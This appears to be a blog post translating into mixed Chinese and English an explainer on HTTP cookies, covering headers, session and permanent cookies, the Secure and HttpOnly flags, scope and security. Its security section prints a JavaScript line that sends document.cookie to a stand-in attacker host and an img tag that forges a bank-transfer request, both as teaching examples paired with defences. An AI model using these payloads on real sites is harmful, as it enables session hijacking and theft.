 ```yaml
---
layout: post
title: HTTP COOKIE 
date: 2017-02-01
categories: translation
---
```

## HTTP Cookies

一个HTTP cookie(web cookie, browser cookie) 是一小段server 发送给user browser 的data，browser可能会存储它并跟随下一次请求send it back  to the same server.典型的，它用来判断是否两次请求来自同一个browser可以用来保持用户 logged-in。它记住无状态HTTP 协议的stateful info.

Cookies 主要用于以下三种目的：

* Session managemnent(user logins, shapping carts)
* personalization（user preferences）
* Tracking (analyzing user behavior)

Cookies 也会用于通常的client-side 存储。但如果有更好的方法就不会用这一种，现在的browser 有许多可以使用的storage API。由于cookies会伴随每个request发送，这样就会造成额外的开销（尤其表现在移动端）。本地存储的新的API是 web storage API(localStorage sessionStorage)和 indexDB.

## Ceating cookies
当server 接收到一个HTTP request， 它就可以发送一个Set-Cookie header with the response.cookies 通常被存在browser 然后，在随后的跟发到该server的每个请求都会带着cookie,它作为Cookie HTTP header 的内容。额外的，可以设置过期时间和指定的domain , path ,limiting how long and to which site the cookie is sent to

## The Set-Cookie and Cookie headers
 set-cookie response header 是server发给 user agent 的。它长这样子
 
 ```
 Set-Cookie: <cookie-name>=<cookie-value>
 ```
 
 server 告诉client 要存一下这个cookie
 
 ```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
 ```
 
 现在，对于每个发到server的request, browser 都会带上之前server 让存的cookies 使用Cookie header
 
```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

## Session cookies
我们上面创建的cookie 就是一个session cookie.当client 页面关闭，就会被移除，这些cookie只存在于当前session. 他们没有指定任何Expires 或者 max-age .注意： 大多浏览器通常都有session restoring enabeld, 它会让大部分session cookies 实际上是permanent 好像browser从未被关闭。

## Permanent cookies
不像session-cookie 在client  close就过期，permanent cookies 会在指定的日期（Expires）或者是过了指定时间（Max-Age）过期.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GM
```

## Secure and HttpOnly cookies
一个secure cookie 会被发送当request 使用了SSL和 HTTPS协议.注意， 机密和敏感信息不应该被HTTO cookie传输，因为整个机制是没有安全保证的。从Chrome 52 和ff52 不安全的sites(http:) 不能够设置带有“secure”指令的 cookies。
为了放置 cross-site scripting (XSS)attacks, HTTP-only cookies 是通过Document.cookie XHR request API 都拿不到的cookies的。当你在js脚本中不需要cookie的时候设置该属性。

## Scope of cookies
Domain , Path 指令定义了scope of cookies,具体说就是cookie被返回时的urls

domain 指定了哪些hosts cookie会被发送。如果没有被指定， 默认为当前document location (不包括subdomains). 如果domain 指定了，subdomains 就被包含了。
如果domain = mozilla.org cookies也会被设置在subdomain 像developer.mozilla.org
path 指示了一个在requested resource 中一定会存在的URL path在发送Cookie header 之前。%x2F("/")字符被解释为文件目录分隔符
如果 Path=/docs 被设置了，下列paths都会被match

* "/docs"
* "/docs/Web"

## JS access using Document.cookies
可以使用Document.cookie来创建新的cookie,如果HttpOnly flag不存在的话，就可以用js脚本来创建cookie

```
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

注意更安全的做法放在后面Security 部分。js 脚本可以获得的 Cookies 可能会被XSS 盗取。

## Security

秘密的敏感的信息都不应该使用cookies

## Session hijacking and xss

cookies 用于鉴定用户以及他的认证session. 所以从web app盗取cookie 就导致劫持了认证用户的session。通常的盗取cookies 的方法包括使用Social Engineering 或者开发一个XSS 漏洞在app中。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 属性通过阻止用js脚本获得cookie可以帮助减少这样的攻击

## Cross-site request forgery(CSRF)
考虑一个example。在这个场景下，一个img并不是真的img ，它只是要一个request 去偷取你银行账号里的钱

```
<img src="http://bank.example.com/withdraw?accout=bob&amount=100000&for=mallory">
```

如果你当前登陆了，你的cookie 仍然有效（并且没有其他验证），你就会在HTML加载img时 转移money。有一些tech 可以防止。

* 像XSS 做输入过滤
* 在任何敏感动作之前做认证
* 用于敏感操作的 cookies 应该有一个short lifetime
* OWASP CSRF prevention cheat sheet 
